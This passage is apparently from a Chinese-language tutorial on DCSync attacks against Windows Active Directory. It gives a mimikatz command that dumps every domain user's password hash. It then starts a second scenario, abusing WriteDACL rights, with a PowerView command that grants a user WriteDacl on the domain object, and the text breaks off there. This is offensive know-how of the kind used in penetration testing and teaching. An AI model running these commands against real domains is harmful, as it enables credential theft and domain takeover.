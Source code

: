 之后便可以使用mimikatz去寻找dc从而dump域内用户hash

```
mimikatz.exe "log Micropoor.txt"  "lsadump::dcsync /domain:test.com /all /csv" "exit"
```

[![image.png](.\图片\e8c93e26-ce0e-49be-ab10-ba85425fa43f.png)](https://storage.tttang.com/media/attachment/2022/06/25/e8c93e26-ce0e-49be-ab10-ba85425fa43f.png)

## [2、DCSync攻击场景二：](https://tttang.com/archive/1634/#toc_2dcsync_1)

若当前用户具有WriteDACL权限，那么我们可以通过该权限去写入DCSync功能
我们先在域控上给用户haha添加WriteDACL的权限

```
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity haha -Rights WriteDacl -Verbose
```
